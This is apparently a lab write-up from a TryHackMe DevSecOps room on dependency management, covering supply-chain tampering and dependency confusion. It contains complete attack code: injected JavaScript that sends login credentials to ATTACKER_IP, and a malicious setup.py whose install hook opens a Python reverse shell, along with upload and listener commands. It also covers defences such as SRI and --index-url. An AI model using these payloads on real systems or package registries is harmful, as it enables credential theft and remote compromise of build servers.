









> /DevSecOps/DependencyManagement

# Dependency Management: 

### When Dependencies Become The Attack Surface

Modern applications rarely start completely from scratch. Instead, developers rely heavily on libraries and SDKs to handle everything from basic functionality to complex operations. These components become **dependencies**, because the application depends on their code to function.

That convenience also expands the application's attack surface. A surprisingly large portion of an application's executed code can come from dependencies rather than code written by the development team. For example, a simple Python program using NumPy may contain only a few lines of application logic, while importing the library triggers thousands of lines of dependency code behind the scenes.

This makes **dependency management** an important part of the SDLC and DevOps pipeline. It involves tracking which dependencies an application uses, controlling their versions, making development and deployment consistent, and monitoring them for known security vulnerabilities. Centralised dependency managers such as JFrog Artifactory can also provide organisations with controlled repositories that integrate directly into build and deployment workflows.

Dependencies can broadly be divided by their origin:

| Type         | Description                                       | Examples                                                                      |
| ------------ | ------------------------------------------------- | ----------------------------------------------------------------------------- |
| **External** | Developed and maintained outside the organisation | PyPI packages, jQuery, VueJS, third-party SDKs                                |
| **Internal** | Developed and maintained within the organisation  | Authentication libraries, data-source libraries, internal message translators |

The distinction matters because each origin introduces a different attack surface. External dependencies require trust in third-party code and its distribution channels, while internal dependencies require secure development, maintenance, access control, and distribution.

In the practical sections ahead, we'll look at how these dependency-management concerns can become exploitable, including **dependency confusion**, where an attacker abuses the way package managers resolve internal and external dependencies.


# Compromising External Dependencies

External dependencies are maintained outside the organisation, so we don't control their development or security directly. That doesn't make them someone else's problem. If our application depends on them, vulnerabilities or tampering within those dependencies become part of our own attack surface.

One concern is **publicly disclosed vulnerabilities**. A dependency may be perfectly functional when we deploy it, only for a vulnerability to later receive a CVE. Version locking can complicate remediation because upgrading may introduce compatibility issues. The situation becomes even harder when the vulnerable component is buried inside a dependency of a dependency.

Another concern is the **software supply chain**. Instead of attacking an application directly, an attacker can compromise something the application already trusts, such as a third-party library or the infrastructure hosting it. A single compromised dependency can then affect multiple applications that consume it.

### Exploiting A Dependency Supply Chain

In this scenario, the authentication portal loads `auth.js` from an S3-style dependency repository:

**Our test-website is:**




**Page Source View**




Also, we can view, that the dependency is leveraging aws bucket



---

```text
Authentication Portal
        │
        └── loads auth.js
                  │
                  ▼
        cdn.tryhackme.loc:9444
                  │
                  ▼
             S3-style bucket
```

The original `auth.js` simply handles automatic form submission when the user presses Enter. The important question is whether we can modify the dependency at its source.


A `PUT` request can test whether the repository allows unauthorised writes:

```bash
curl -X PUT http://cdn.tryhackme.loc:9444/libraries/test.js \
  -d "Testing world-writeable permissions"
```

An `HTTP 200 OK` confirms that the file was successfully written. We can then retrieve the uploaded file, demonstrating that the dependency repository is **world-writable**.

That turns a harmless JavaScript dependency into a supply-chain attack opportunity. Instead of replacing the library with arbitrary functionality, we can demonstrate the impact by modifying `auth.js` so that submitted credentials are sent to an attacker-controlled listener before the legitimate login action continues.

Our malicious script is 



The modified dependency sends the captured values through an XHR request:

```javascript
const oReq = new XMLHttpRequest();
var user = document.getElementById('txtUsername').value;
var pass = document.getElementById('txtPassword').value;

oReq.open(
    "GET",
    "http://ATTACKER_IP:7070/item?user=" + user + "&pass=" + pass
);
oReq.send();
```

The modified dependency can then overwrite the legitimate library:

```bash
curl http://cdn.tryhackme.loc:9444/libraries/auth.js \
  --upload-file auth.js
```

A simple Python HTTP server is enough to receive the request:

```bash
python3 -m http.server 7070
```



When a user authenticates through the application, their browser loads the compromised dependency and executes the injected code. The result is a practical demonstration of the supply-chain problem: **the application itself didn't need to be compromised. Its trusted dependency was enough.**

### Reducing The Risk

External dependencies need continuous security management. Dependencies should be regularly patched, with emergency updates for critical vulnerabilities. Where appropriate, commonly used dependencies can also be hosted internally to reduce exposure to external infrastructure.

For browser-based JavaScript dependencies, **Subresource Integrity (SRI)** provides another layer of protection. The expected cryptographic hash can be included with the script, allowing the browser to reject the dependency if its contents have been modified.

The key lesson is that dependency security extends beyond the code inside the library. **The repository, distribution mechanism, versioning process, and integrity of the dependency all become part of the application's attack surface.**


# Managing Internal Dependencies

Internal dependencies are libraries and SDKs developed and maintained within the organisation. They help standardise common functionality such as authentication, registration, and application-to-application communication, so developers don't have to repeatedly build the same components from scratch.

The difference is ownership. With an internal dependency, the organisation is responsible for its security, maintenance, documentation, and distribution.

A vulnerability in an internal library can have a much wider impact than a vulnerability in a single application because the same dependency may be used across multiple systems. This makes **security testing before release** essential. Another concern is **legacy code**. If the original maintainer leaves or documentation becomes outdated, the dependency can remain in production without receiving necessary security updates.

Storage and access control are another important consideration. Developers generally need to **read and consume** internal dependencies, but they shouldn't automatically have permission to modify them. If every developer has write access, compromising a single developer account could allow an attacker to alter a dependency used by multiple applications.

For organisations using a single language, an internal package repository such as a private PyPI server may be sufficient. Larger environments using multiple languages can instead use a central dependency manager such as JFrog Artifactory, allowing internal and approved external dependencies to be managed through a common repository and integrated into the DevOps pipeline.

However, centralisation also creates a high-value target. If the dependency manager or repository is compromised, an attacker may be able to affect every application consuming its packages. One attack that specifically abuses the relationship between internal and external repositories is **Dependency Confusion**, which we'll explore next.


## Dependency Confusion

**Dependency Confusion** occurs when an organisation uses internal packages alongside public package repositories and the package manager can be tricked into selecting a malicious external package instead of the legitimate internal one.

The issue becomes clearer with Python's `pip`. A build might be configured to search both the public PyPI repository and an internal repository:

```bash
pip install numpy --extra-index-url https://our-internal-pypi-server.com/
```

The important detail is that `--extra-index-url` adds another package source. If the same package name exists in both repositories, `pip` can compare the available versions and select the **highest version**.

That creates an opportunity for an attacker. If they discover the name of an internal package, they can register a package with the same name on a public repository and assign it an unusually high version number. A build process searching both sources may then select the attacker's package.



The difficult part for an attacker is discovering the name of an internal dependency. Public developer discussions can accidentally expose internal package names, while application files such as `package.json` may also reveal package information.

Once the name is known, the attacker can publish a malicious package using the same name but a higher version, such as `9000.0.1`. If the build system resolves the external package, the attacker's code can execute during installation or later stages of the build.

There are a couple of practical limitations. The attacker usually knows the package name but not its actual implementation, so the build may eventually fail when the malicious package doesn't provide the functionality expected by the application. The version also has to be higher than the legitimate internal version. The technique isn't limited to Python either, as similar package-resolution issues can affect ecosystems such as **npm** and **RubyGems**.

The core problem is therefore not a vulnerability in the dependency itself. It is the **trust relationship between internal and external package sources**, combined with how the package manager resolves competing packages.


# Winning The Dependency Race

The developer of the application has posted a question on a public forum:

> Upload Package to Internal Pypi Server
>
> Hi all, how would I upload a pip package to our internal Pypi server? I know I would use the following to upload it externally, but what should I change?
>
> "twine upload dist/datadbconnect-0.0.2.tar.gz"
>
> Is there a flag or something that I can add?

In the post, the developer seems to have disclosed the name of an internal package, datadbconnect. This is all we need to get started on our Dependency Confusion attack!

With the internal package name `datadbconnect` exposed publicly, we have enough information to attempt a **Dependency Confusion** attack. The build environment checks both its internal package repository and an external PyPI-style repository, creating the condition we need.

The first step is to confirm that the target API is running:

```bash
curl http://MACHINE_IP:8181/api/list
```


The API returns data, confirming that the automated build environment is operational. The exposed package name gives us the next piece of the attack.

```text
Dependency Confusion Attack
│
├── Public Information
│   └── datadbconnect
│
├── Attacker
│   ├── Create package with same name
│   └── Use higher version
│
├── Push to External Package Repository
│
├── Build Server
│   └── Resolves dependency
│
└── Malicious Package Installed

```

Since we don't have the source code of the legitimate package, getting code execution during installation is more reliable than waiting for the application to use our replacement package. Python packages can execute installation logic through `setup.py`, allowing us to add a post-installation hook.

**Our malicious setup.py**
```python

from setuptools import find_packages
from setuptools import setup
from setuptools.command.install import install
import os
import sys

VERSION = 'v9000.0.2'

class PostInstallCommand(install):
     def run(self):
         install.run(self)
         print ("Hello World from installer, this proves our injection works")
         os.system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKBOX_IP",8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])\'')

setup(
        name='datadbconnect',
        url='https://github.com/labs/datadbconnect/',
        download_url='https://github.com/labs/datadbconnect/archive/{}.tar.gz'.format(VERSION),
        author='Tinus Green',
        author_email='tinus@notmyrealemail.com',
        version=VERSION,
        packages=find_packages(),
        include_package_data=True,
        license='MIT',
        description=('''Dataset Connection Package '''
                  '''that can be used internally to connect to data sources '''),
        cmdclass={
            'install': PostInstallCommand
        },
)

```


The malicious package keeps the legitimate package name but uses a deliberately higher version:

```python
VERSION = 'v9000.0.2'
```

The installation hook executes our callback when the package is installed:

```python
class PostInstallCommand(install):
    def run(self):
        install.run(self)
        print("Hello World from installer, this proves our injection works")
        # Reverse-shell command omitted
```

We then connect the hook to the package installation process:

```python
cmdclass={
    'install': PostInstallCommand
}
```

With the package prepared, we build it into a distributable archive:

```bash
python3 setup.py sdist
```


The resulting package can then be uploaded to the simulated external repository:

```bash
twine upload dist/datadbconnect-9000.0.2.tar.gz \
  --repository-url http://external.pypi-server.loc:8080
```





A listener waits for the build environment to execute the installation hook:

```bash
nc -lvp 8080
```

Before waiting for the automated build, we can verify the package directly against the external repository:

```bash
pip3 install datadbconnect \
  --trusted-host external.pypi-server.loc \
  --index-url http://external.pypi-server.loc:8080 \
  --verbose
```

If the installation hook executes successfully, the listener receives a connection with the privileges of the installation process. The same technique can then trigger when the automated build server rebuilds its container.

**Gaining RCE on compromised server:**



**Capturing secrets by RCE**




The vulnerable Dockerfile explains the entire attack:

```dockerfile
RUN pip3 install datadbconnect --no-cache-dir \
    --trusted-host internal-pypi-server \
    --extra-index-url "http://internal-pypi-server:8081/simple/"
```

The critical mistake is `--extra-index-url`. It doesn't tell `pip` to prefer the internal repository. Instead, both repositories become candidates for `datadbconnect`, and the available versions are compared. Because our external package has the higher version, `pip` selects it.

```text
Internal Repository              External Repository
datadbconnect v0.0.2             datadbconnect v9000.0.2
         │                                │
         └──────────────┬─────────────────┘
                        ▼
                   pip resolver
                        │
                        ▼
                 Highest version
                        │
                        ▼
              External malicious package
                        │
                        ▼
                Installation hook
                        │
                        ▼
                  Code execution
```


# From Dependencies To Lessons

The primary defence is to avoid ambiguous package sources. Where a private dependency is required, a single trusted feed should be referenced with `--index-url` rather than adding another source through `--extra-index-url`. Package scopes, version locking, client-side verification, secure repository infrastructure, and active maintenance provide additional layers of protection.

Dependency management is more than keeping packages updated. Every dependency introduces another component, repository, maintainer, and trust relationship into the application's attack surface. External dependencies can introduce vulnerable or compromised code, while poorly managed internal dependencies can expose multiple applications at once.

The Dependency Confusion attack demonstrated how a small configuration mistake, such as using `--extra-index-url`, can undermine an otherwise trusted build pipeline. Keeping dependencies maintained, controlling repository access, verifying package integrity, and ensuring package managers resolve dependencies only from trusted sources are all essential parts of securing the software supply chain.

---

> QXV0aG9yOiBodHRwczovL2dpdGh1Yi5jb20vaGFzaC01NDU=
